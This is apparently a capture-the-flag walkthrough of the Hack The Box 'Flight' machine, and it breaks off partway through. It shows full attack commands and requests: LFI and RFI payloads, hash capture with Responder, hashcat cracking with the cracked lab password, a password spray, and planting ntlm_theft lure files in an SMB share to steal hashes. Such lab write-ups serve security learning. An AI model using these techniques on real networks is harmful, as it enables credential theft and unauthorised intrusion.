






# Flight
## Host file setup
```python
sudo nxc smb 10.129.228.120 --generate-hosts-file /etc/hosts
[sudo] password for kali: 
SMB         10.129.228.120  445    G0               [*] Windows 10 / Server 2019 Build 17763 x64 (name:G0) (domain:flight.htb) (signing:True) (SMBv1:None) (Null Auth:True)
```
SMB signing enabled

Null auth enabled

## Enumeration
### Open ports
```python
nmap -p- --min-rate=2000 -sT g0.flight.htb -Pn
Starting Nmap 7.98 ( https://nmap.org ) at 2026-03-31 15:59 +0100
Nmap scan report for g0.flight.htb (10.129.228.120)
Host is up (0.014s latency).
rDNS record for 10.129.228.120: G0.flight.htb
Not shown: 65518 filtered tcp ports (no-response)
PORT      STATE SERVICE
53/tcp    open  domain
80/tcp    open  http
88/tcp    open  kerberos-sec
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
389/tcp   open  ldap
445/tcp   open  microsoft-ds
464/tcp   open  kpasswd5
593/tcp   open  http-rpc-epmap
636/tcp   open  ldapssl
3268/tcp  open  globalcatLDAP
3269/tcp  open  globalcatLDAPssl
9389/tcp  open  adws
49667/tcp open  unknown
49673/tcp open  unknown
49674/tcp open  unknown
49695/tcp open  unknown

Nmap done: 1 IP address (1 host up) scanned in 66.70 seconds
```

### Nmap
```python
nmap -p 53,80,88,135,139,389,445,464,593,636,3268,3269,9389 -A --min-rate=2000 -sT g0.flight.htb
Starting Nmap 7.98 ( https://nmap.org ) at 2026-03-31 16:01 +0100
Nmap scan report for g0.flight.htb (10.129.228.120)
Host is up (0.014s latency).
rDNS record for 10.129.228.120: G0.flight.htb

PORT     STATE SERVICE       VERSION
53/tcp   open  domain        Simple DNS Plus
80/tcp   open  http          Apache httpd 2.4.52 ((Win64) OpenSSL/1.1.1m PHP/8.1.1)
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Apache/2.4.52 (Win64) OpenSSL/1.1.1m PHP/8.1.1
|_http-title: g0 Aviation
88/tcp   open  kerberos-sec  Microsoft Windows Kerberos (server time: 2026-03-31 22:01:27Z)
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: flight.htb, Site: Default-First-Site-Name)
445/tcp  open  microsoft-ds?
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp  open  tcpwrapped
3268/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain: flight.htb, Site: Default-First-Site-Name)
3269/tcp open  tcpwrapped
9389/tcp open  mc-nmf        .NET Message Framing
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running (JUST GUESSING): Microsoft Windows 2019|10 (97%)
OS CPE: cpe:/o:microsoft:windows_server_2019 cpe:/o:microsoft:windows_10
Aggressive OS guesses: Windows Server 2019 (97%), Microsoft Windows 10 1903 - 21H1 (91%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: Host: G0; OS: Windows; CPE: cpe:/o:microsoft:windows
```
Web server is running apache

DC is running at +6h

## HTTP (80)
### Nuclei 
```python
nuclei -u http://flight.htb/                                                                    

[http-trace:trace-request] [http] [info] http://flight.htb/
[http-trace:options-request] [http] [info] http://flight.htb/
[waf-detect:apachegeneric] [http] [info] http://flight.htb/
[ldap-metadata] [javascript] [info] flight.htb:389 ["DomainControllerFunctionality: 7","BaseDN: dc=389","DnsHostName: g0.flight.htb","DefaultNamingContext: DC=flight,DC=htb","DomainFunctionality: 7","ForestFunctionality: 7"]
[smb2-capabilities] [javascript] [info] flight.htb:445 ["["DFSSupport","LargeMTU","Leasing"]"]
[smb-version-detect:smb-version] [javascript] [info] flight.htb:445 ["SMB 2.1"]
[smb2-server-time] [javascript] [info] flight.htb:445 ["SystemTime: 2026-03-31T22:06:08.000Z ServerStartTime: 2009-04-22T19:24:48.000Z"]
[smb-enum] [javascript] [info] flight.htb:445 ["NetBIOSComputerName: G0","NetBIOSDomainName: flight","DNSComputerNamen: g0.flight.htb","DNSComputerName: g0.flight.htb","ForestName: flight.htb","OSVersion: 10.0.17763"]
[smb-enum-domains] [javascript] [info] flight.htb:445 ["DomainName: flight.htb"]
[smb-os-detect] [javascript] [info] flight.htb:445 ["Windows Server 2019, Version 1809"]
[ldap-anonymous-login-detect] [javascript] [medium] flight.htb:389
[old-copyright] [http] [info] http://flight.htb/ ["Copyright 2022"]
[http-missing-security-headers:clear-site-data] [http] [info] http://flight.htb/
[http-missing-security-headers:strict-transport-security] [http] [info] http://flight.htb/
[http-missing-security-headers:content-security-policy] [http] [info] http://flight.htb/
[http-missing-security-headers:x-content-type-options] [http] [info] http://flight.htb/
[http-missing-security-headers:referrer-policy] [http] [info] http://flight.htb/
[http-missing-security-headers:cross-origin-embedder-policy] [http] [info] http://flight.htb/
[http-missing-security-headers:cross-origin-opener-policy] [http] [info] http://flight.htb/
[http-missing-security-headers:cross-origin-resource-policy] [http] [info] http://flight.htb/
[http-missing-security-headers:missing-content-type] [http] [info] http://flight.htb/
[http-missing-security-headers:permissions-policy] [http] [info] http://flight.htb/
[http-missing-security-headers:x-frame-options] [http] [info] http://flight.htb/
[http-missing-security-headers:x-permitted-cross-domain-policies] [http] [info] http://flight.htb/
[cgi-printenv] [http] [medium] http://flight.htb/cgi-bin/printenv.pl
[options-method] [http] [info] http://flight.htb/ ["GET,POST,OPTIONS,HEAD,TRACE"]
[apache-detect] [http] [info] http://flight.htb/ ["Apache/2.4.52 (Win64) OpenSSL/1.1.1m PHP/8.1.1"]
[openssl-detect] [http] [info] http://flight.htb/ ["OpenSSL/1.1.1m"]
[php-detect] [http] [info] http://flight.htb/
[caa-fingerprint] [dns] [info] flight.htb
```
### Ffuf for subdomains
```python
ffuf -u http://flight.htb/ -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-110000.txt -H 'Host: FUZZ.flight.htb' -t 50 -fs 7069

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://flight.htb/
 :: Wordlist         : FUZZ: /usr/share/seclists/Discovery/DNS/subdomains-top1million-110000.txt
 :: Header           : Host: FUZZ.flight.htb
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 50
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
 :: Filter           : Response size: 7069
________________________________________________

school                  [Status: 200, Size: 3996, Words: 1045, Lines: 91, Duration: 15ms]
Duration: [0:00:35:: P:: Progress: [114442/114442] :: Job [1/1] :: 285 req/sec :: Duration: [0:03:27] :: Errors: 0 ::
```
Found a `school` subdomain
### Ferosbuster
```python
nothing interesting
```
### Website functionality

The website appears to be a flight planner for an airline

This form on the landing page doesnt have any functionality

No other links on the page go anywhere

### `school` subdomain
#### Feroxbuster
```python
nothing interesting
```
There is a `phpmyadmin` install on here!
#### Nuclei
```python
nuclei -u http://school.flight.htb/                  

[http-trace:trace-request] [http] [info] http://school.flight.htb/
[waf-detect:apachegeneric] [http] [info] http://school.flight.htb/
[ldap-metadata] [javascript] [info] school.flight.htb:389 ["DnsHostName: g0.flight.htb","DefaultNamingContext: DC=flight,DC=htb","DomainFunctionality: 7","ForestFunctionality: 7","DomainControllerFunctionality: 7","BaseDN: dc=389"]
[smb-version-detect:smb-version] [javascript] [info] school.flight.htb:445 ["SMB 2.1"]
[smb2-capabilities] [javascript] [info] school.flight.htb:445 ["["DFSSupport","LargeMTU","Leasing"]"]
[smb2-server-time] [javascript] [info] school.flight.htb:445 ["SystemTime: 2026-03-31T22:20:20.000Z ServerStartTime: 2009-04-22T19:24:48.000Z"]
[smb-enum-domains] [javascript] [info] school.flight.htb:445 ["DomainName: flight.htb"]
[smb-enum] [javascript] [info] school.flight.htb:445 ["OSVersion: 10.0.17763","NetBIOSComputerName: G0","NetBIOSDomainName: flight","DNSComputerNamen: g0.flight.htb","DNSComputerName: g0.flight.htb","ForestName: flight.htb"]
[smb-os-detect] [javascript] [info] school.flight.htb:445 ["Windows Server 2019, Version 1809"]
[ldap-anonymous-login-detect] [javascript] [medium] school.flight.htb:389
[tech-detect:php] [http] [info] http://school.flight.htb/
[http-missing-security-headers:permissions-policy] [http] [info] http://school.flight.htb/
[http-missing-security-headers:x-frame-options] [http] [info] http://school.flight.htb/
[http-missing-security-headers:x-content-type-options] [http] [info] http://school.flight.htb/
[http-missing-security-headers:referrer-policy] [http] [info] http://school.flight.htb/
[http-missing-security-headers:cross-origin-embedder-policy] [http] [info] http://school.flight.htb/
[http-missing-security-headers:cross-origin-opener-policy] [http] [info] http://school.flight.htb/
[http-missing-security-headers:missing-content-type] [http] [info] http://school.flight.htb/
[http-missing-security-headers:strict-transport-security] [http] [info] http://school.flight.htb/
[http-missing-security-headers:content-security-policy] [http] [info] http://school.flight.htb/
[http-missing-security-headers:x-permitted-cross-domain-policies] [http] [info] http://school.flight.htb/
[http-missing-security-headers:clear-site-data] [http] [info] http://school.flight.htb/
[http-missing-security-headers:cross-origin-resource-policy] [http] [info] http://school.flight.htb/
[apache-detect] [http] [info] http://school.flight.htb/ ["Apache/2.4.52 (Win64) OpenSSL/1.1.1m PHP/8.1.1"]
[openssl-detect] [http] [info] http://school.flight.htb/ ["OpenSSL/1.1.1m"]
[php-detect] [http] [info] http://school.flight.htb/ ["8.1.1"]
[cgi-printenv] [http] [medium] http://school.flight.htb/cgi-bin/printenv.pl
[caa-fingerprint] [dns] [info] school.flight.htb
```
#### Website functionality

There is clearly some protection on this functionality when trying to get LFI

## LFI in `school` subdomain
After seeing the protections on the URL parameter i investigated further

Ill use this wordlist here to fuzz the parameter:

/usr/share/seclists/Fuzzing/LFI/LFI-Windows-adeadfed.txt

```python
GET /index.php?view=%2F%2F.%2FC%3A%2FWindows%2Fsystem32%2Fdrivers%2Fetc%2Fhosts HTTP/1.1
Host: school.flight.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:140.0) Gecko/20100101 Firefox/140.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://school.flight.htb/index.php?view=home.html
Connection: close
Upgrade-Insecure-Requests: 1
Priority: u=0, i
```
After filtering the response length i found a file read vulnerability in the URL parameter bypassing any protections that are there

URL decoding the payload used i get this:
```python
//./C:/Windows/system32/drivers/etc/hosts
```
## RFI in `school` subdomain
So to test this ill setup a python webserver on my machine

```python
python3 -m http.server 8000
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
```

```python
GET /index.php?view=http://10.10.14.90:8000/test.txt HTTP/1.1
Host: school.flight.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:140.0) Gecko/20100101 Firefox/140.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://school.flight.htb/index.php?view=home.html
Connection: keep-alive
Upgrade-Insecure-Requests: 1
Priority: u=0, i
```
Ill send this request and wait for a response on my server

```python
python3 -m http.server 8000
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
10.129.228.120 - - [31/Mar/2026 16:44:56] code 404, message File not found
10.129.228.120 - - [31/Mar/2026 16:44:56] "GET /test.txt HTTP/1.1" 404 -
```
Confirmed RFI

To exploit this i can use responder to try and capture a hash

https://wise-forensics.com/2025/01/28/local-file-inclusion-lfi-remote-file-inclusion-rfi/

### Capturing NTLM hash
```python
sudo responder -I tun0
```
Ill start up responder
```python
GET /index.php?view=//10.10.14.90/share/test.txt HTTP/1.1
Host: school.flight.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:140.0) Gecko/20100101 Firefox/140.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://school.flight.htb/index.php?view=home.html
Connection: keep-alive
Upgrade-Insecure-Requests: 1
Priority: u=0, i
```
Ill send this request to point to my share

```python
[SMB] NTLMv2-SSP Client   : 10.129.228.120
[SMB] NTLMv2-SSP Username : flight\svc_apache
[SMB] NTLMv2-SSP Hash     : svc_apache::flight:8a3c1b3635d676a8:25ED2E661A0BCDB469DEE5868B951DAF:0101000000000000003DDDA82EC1DC01C7B08DBE2B3FDECC0000000002000800360045004300320001001E00570049004E002D0034004E005000380034004B004A00390035005400550004003400570049004E002D0034004E005000380034004B004A0039003500540055002E0036004500430032002E004C004F00430041004C000300140036004500430032002E004C004F00430041004C000500140036004500430032002E004C004F00430041004C0007000800003DDDA82EC1DC0106000400020000000800300030000000000000000000000000300000FB840A9349D10ED9F2C6048A7D2E4AF1AFB055F5E509F4FF113D3D01B3D9EC580A001000000000000000000000000000000000000900200063006900660073002F00310030002E00310030002E00310034002E00390030000000000000000000
```
Ive captured an NetNTLMv2 hash

### Cracking hash
```python
hashcat svc_apache.hash /usr/share/wordlists/rockyou.txt


SVC_APACHE::flight:8a3c1b3635d676a8:25ed2e661a0bcdb469dee5868b951daf:0101000000000000003ddda82ec1dc01c7b08dbe2b3fdecc0000000002000800360045004300320001001e00570049004e002d0034004e005000380034004b004a00390035005400550004003400570049004e002d0034004e005000380034004b004a0039003500540055002e0036004500430032002e004c004f00430041004c000300140036004500430032002e004c004f00430041004c000500140036004500430032002e004c004f00430041004c0007000800003ddda82ec1dc0106000400020000000800300030000000000000000000000000300000fb840a9349d10ed9f2c6048a7d2e4af1afb055f5e509f4ff113d3d01b3d9ec580a001000000000000000000000000000000000000900200063006900660073002f00310030002e00310030002e00310034002e00390030000000000000000000:S@Ss!K@*t13
```
Ive cracked the hash

```python
svc_apache:S@Ss!K@*t13
```
I will now validate these creds

```python
nxc smb g0.flight.htb -u svc_apache -p 'S@Ss!K@*t13'  
SMB         10.129.228.120  445    G0               [*] Windows 10 / Server 2019 Build 17763 x64 (name:G0) (domain:flight.htb) (signing:True) (SMBv1:None) (Null Auth:True)
SMB         10.129.228.120  445    G0               [+] flight.htb\svc_apache:S@Ss!K@*t13
```
I have compromised this user

## Access as `svc_apache`
### SMB shares
```python
nxc smb g0.flight.htb -u svc_apache -p 'S@Ss!K@*t13' --shares
SMB         10.129.228.120  445    G0               [*] Windows 10 / Server 2019 Build 17763 x64 (name:G0) (domain:flight.htb) (signing:True) (SMBv1:None) (Null Auth:True)
SMB         10.129.228.120  445    G0               [+] flight.htb\svc_apache:S@Ss!K@*t13 
SMB         10.129.228.120  445    G0               [*] Enumerated shares
SMB         10.129.228.120  445    G0               Share           Permissions     Remark
SMB         10.129.228.120  445    G0               -----           -----------     ------
SMB         10.129.228.120  445    G0               ADMIN$                          Remote Admin
SMB         10.129.228.120  445    G0               C$                              Default share
SMB         10.129.228.120  445    G0               IPC$            READ            Remote IPC
SMB         10.129.228.120  445    G0               NETLOGON        READ            Logon server share 
SMB         10.129.228.120  445    G0               Shared          READ            
SMB         10.129.228.120  445    G0               SYSVOL          READ            Logon server share 
SMB         10.129.228.120  445    G0               Users           READ            
SMB         10.129.228.120  445    G0               Web             READ 
```
Read access on default shares

Read access on `Shared` `Users` and `Web`

### Users
```python
nxc smb g0.flight.htb -u svc_apache -p 'S@Ss!K@*t13' --users-export users.txt 
SMB         10.129.228.120  445    G0               [*] Windows 10 / Server 2019 Build 17763 x64 (name:G0) (domain:flight.htb) (signing:True) (SMBv1:None) (Null Auth:True)
SMB         10.129.228.120  445    G0               [+] flight.htb\svc_apache:S@Ss!K@*t13 
SMB         10.129.228.120  445    G0               -Username-                    -Last PW Set-       -BadPW- -Description-
SMB         10.129.228.120  445    G0               Administrator                 2022-09-22 20:17:02 0       Built-in account for administering the computer/domain
SMB         10.129.228.120  445    G0               Guest                         <never>             0       Built-in account for guest access to the computer/domain
SMB         10.129.228.120  445    G0               krbtgt                        2022-09-22 19:48:01 0       Key Distribution Center Service Account
SMB         10.129.228.120  445    G0               S.Moon                        2022-09-22 20:08:22 0       Junion Web Developer
SMB         10.129.228.120  445    G0               R.Cold                        2022-09-22 20:08:22 0       HR Assistant
SMB         10.129.228.120  445    G0               G.Lors                        2022-09-22 20:08:22 0       Sales manager
SMB         10.129.228.120  445    G0               L.Kein                        2022-09-22 20:08:22 0       Penetration tester
SMB         10.129.228.120  445    G0               M.Gold                        2022-09-22 20:08:22 0       Sysadmin
SMB         10.129.228.120  445    G0               C.Bum                         2022-09-22 20:08:22 0       Senior Web Developer
SMB         10.129.228.120  445    G0               W.Walker                      2022-09-22 20:08:22 0       Payroll officer
SMB         10.129.228.120  445    G0               I.Francis                     2022-09-22 20:08:22 0       Nobody knows why he's here
SMB         10.129.228.120  445    G0               D.Truff                       2022-09-22 20:08:22 0       Project Manager
SMB         10.129.228.120  445    G0               V.Stevens                     2022-09-22 20:08:22 0       Secretary
SMB         10.129.228.120  445    G0               svc_apache                    2022-09-22 20:08:23 0       Service Apache web
SMB         10.129.228.120  445    G0               O.Possum                      2022-09-22 20:08:23 0       Helpdesk
SMB         10.129.228.120  445    G0               [*] Enumerated 15 local users: flight
SMB         10.129.228.120  445    G0               [*] Writing 15 local users to users.txt
```
Dumped all the users on the domain to a file

Also got soem user descriptions which helps me understand the role of each user

AS-REP roasting and kerberoasting not possible

Bloodhound shows me nothing

## Password spray leads to user compromise
```python
nxc smb g0.flight.htb -u users.txt -p 'S@Ss!K@*t13' --continue-on-success
SMB         10.129.228.120  445    G0               [*] Windows 10 / Server 2019 Build 17763 x64 (name:G0) (domain:flight.htb) (signing:True) (SMBv1:None) (Null Auth:True)
SMB         10.129.228.120  445    G0               [-] flight.htb\Administrator:S@Ss!K@*t13 STATUS_LOGON_FAILURE 
SMB         10.129.228.120  445    G0               [-] flight.htb\Guest:S@Ss!K@*t13 STATUS_LOGON_FAILURE 
SMB         10.129.228.120  445    G0               [-] flight.htb\krbtgt:S@Ss!K@*t13 STATUS_LOGON_FAILURE 
SMB         10.129.228.120  445    G0               [+] flight.htb\S.Moon:S@Ss!K@*t13 
SMB         10.129.228.120  445    G0               [-] flight.htb\R.Cold:S@Ss!K@*t13 STATUS_LOGON_FAILURE 
SMB         10.129.228.120  445    G0               [-] flight.htb\G.Lors:S@Ss!K@*t13 STATUS_LOGON_FAILURE 
SMB         10.129.228.120  445    G0               [-] flight.htb\L.Kein:S@Ss!K@*t13 STATUS_LOGON_FAILURE 
SMB         10.129.228.120  445    G0               [-] flight.htb\M.Gold:S@Ss!K@*t13 STATUS_LOGON_FAILURE 
SMB         10.129.228.120  445    G0               [-] flight.htb\C.Bum:S@Ss!K@*t13 STATUS_LOGON_FAILURE 
SMB         10.129.228.120  445    G0               [-] flight.htb\W.Walker:S@Ss!K@*t13 STATUS_LOGON_FAILURE 
SMB         10.129.228.120  445    G0               [-] flight.htb\I.Francis:S@Ss!K@*t13 STATUS_LOGON_FAILURE 
SMB         10.129.228.120  445    G0               [-] flight.htb\D.Truff:S@Ss!K@*t13 STATUS_LOGON_FAILURE 
SMB         10.129.228.120  445    G0               [-] flight.htb\V.Stevens:S@Ss!K@*t13 STATUS_LOGON_FAILURE 
SMB         10.129.228.120  445    G0               [+] flight.htb\svc_apache:S@Ss!K@*t13 
SMB         10.129.228.120  445    G0               [-] flight.htb\O.Possum:S@Ss!K@*t13 STATUS_LOGON_FAILURE
```
As seen here there is another user with the same password

### Access as `s.moon`
```python
nxc smb g0.flight.htb -u s.moon -p 'S@Ss!K@*t13' --shares       
SMB         10.129.228.120  445    G0               [*] Windows 10 / Server 2019 Build 17763 x64 (name:G0) (domain:flight.htb) (signing:True) (SMBv1:None) (Null Auth:True)
SMB         10.129.228.120  445    G0               [+] flight.htb\s.moon:S@Ss!K@*t13 
SMB         10.129.228.120  445    G0               [*] Enumerated shares
SMB         10.129.228.120  445    G0               Share           Permissions     Remark
SMB         10.129.228.120  445    G0               -----           -----------     ------
SMB         10.129.228.120  445    G0               ADMIN$                          Remote Admin
SMB         10.129.228.120  445    G0               C$                              Default share
SMB         10.129.228.120  445    G0               IPC$            READ            Remote IPC
SMB         10.129.228.120  445    G0               NETLOGON        READ            Logon server share 
SMB         10.129.228.120  445    G0               Shared          READ,WRITE      
SMB         10.129.228.120  445    G0               SYSVOL          READ            Logon server share 
SMB         10.129.228.120  445    G0               Users           READ            
SMB         10.129.228.120  445    G0               Web             READ
```
This user has write access to `Shared`

Nothing in bloodhound so im going to try and exploit write access to the `shared` share

As previously identified there is nothing in the `shared` share so im going to try a watering hole attack

## Watering hole attack
```python
python3 ntlm_theft.py -g all -s 10.10.14.90 -f meeting   
/home/kali/htb/flight/ntlm_theft/ntlm_theft.py:168: SyntaxWarning: invalid escape sequence '\l'
  location.href = 'ms-word:ofe|u|\\''' + server + '''\leak\leak.docx';
Created: meeting/meeting.scf (BROWSE TO FOLDER)
Created: meeting/meeting-(url).url (BROWSE TO FOLDER)
Created: meeting/meeting-(icon).url (BROWSE TO FOLDER)
Created: meeting/meeting.lnk (BROWSE TO FOLDER)
Created: meeting/meeting.rtf (OPEN)
Created: meeting/meeting-(stylesheet).xml (OPEN)
Created: meeting/meeting-(fulldocx).xml (OPEN)
Created: meeting/meeting.htm (OPEN FROM DESKTOP WITH CHROME, IE OR EDGE)
Created: meeting/meeting-(handler).htm (OPEN FROM DESKTOP WITH CHROME, IE OR EDGE)
Created: meeting/meeting-(includepicture).docx (OPEN)
Created: meeting/meeting-(remotetemplate).docx (OPEN)
Created: meeting/meeting-(frameset).docx (OPEN)
Created: meeting/meeting-(externalcell).xlsx (OPEN)
Created: meeting/meeting.wax (OPEN)
Created: meeting/meeting.m3u (OPEN IN WINDOWS MEDIA PLAYER ONLY)
Created: meeting/meeting.asx (OPEN)
Created: meeting/meeting.jnlp (OPEN)
Created: meeting/meeting.application (DOWNLOAD AND OPEN)
Created: meeting/meeting.pdf (OPEN AND ALLOW)
Created: meeting/zoom-attack-instructions.txt (PASTE TO CHAT)
Created: meeting/meeting.library-ms (BROWSE TO FOLDER)
Created: meeting/Autorun.inf (BROWSE TO FOLDER)
Created: meeting/desktop.ini (BROWSE TO FOLDER)
Created: meeting/meeting.theme (THEME TO INSTALL
Generation Complete.
```
First i generate a malicious collection of file that will link back to me

```python
sudo responder -I tun0
```
Then ill start the listener

```python
smbclient //g0.flight.htb/Shared -U 's.moon'%'S@Ss!K@*t13'
Try "help" to get a list of possible commands.
smb: \> prompt off
smb: \> mput meeting*
```
This planted the files in the share and after a minute

```python
[SMB] NTLMv2-SSP Client   : 10.129.228.120
[SMB] NTLMv2-SSP Username : flight.htb\c.bum
